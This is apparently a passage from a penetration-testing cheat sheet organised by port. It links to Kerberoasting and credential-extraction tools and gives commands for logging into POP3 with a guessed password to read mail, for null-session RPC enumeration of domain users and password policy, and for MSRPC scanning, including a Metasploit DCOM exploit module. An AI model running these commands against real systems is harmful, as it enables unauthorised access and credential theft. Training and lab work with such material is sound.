 ```
# <https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/>
# <https://github.com/GhostPack/Rubeus>
# <https://github.com/fireeye/SSSDKCMExtractor>
# <https://gitlab.com/Zer1t0/cerbero>

```

### Port 110 - Pop3

```
telnet 10.11.1.111
USER pelle@10.11.1.111
PASS admin

# or:

USER pelle
PASS admin

# List all emails
list

# Retrieve email number 5, for example
retr 9

```

### Port 111 - Rpcbind

```
rpcinfo -p 10.11.1.111
rpcclient -U "" 10.11.1.111
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall

```

### Port 135 - MSRPC

Some versions are vulnerable.

```
nmap 10.11.1.111 --script=msrpc-enum
msf > use exploit/windows/dcerpc/ms03_026_dcom

# Endpoint Mapper Service Discovery
use auxiliary/scanner/dcerpc/endpoint_mapper

#Hidden DCERPC Service Discovery
use auxiliary/scanner/dcerpc/hidden

# Remote Management Interface Discovery
use auxiliary/scanner/dcerpc/management

# DCERPC TCP Service Auditor
use auxiliary/scanner/dcerpc/tcp_dcerpc_auditor

impacket-rpcdump

# Enum network interface
# <https://github.com/mubix/IOXIDResolver>
```
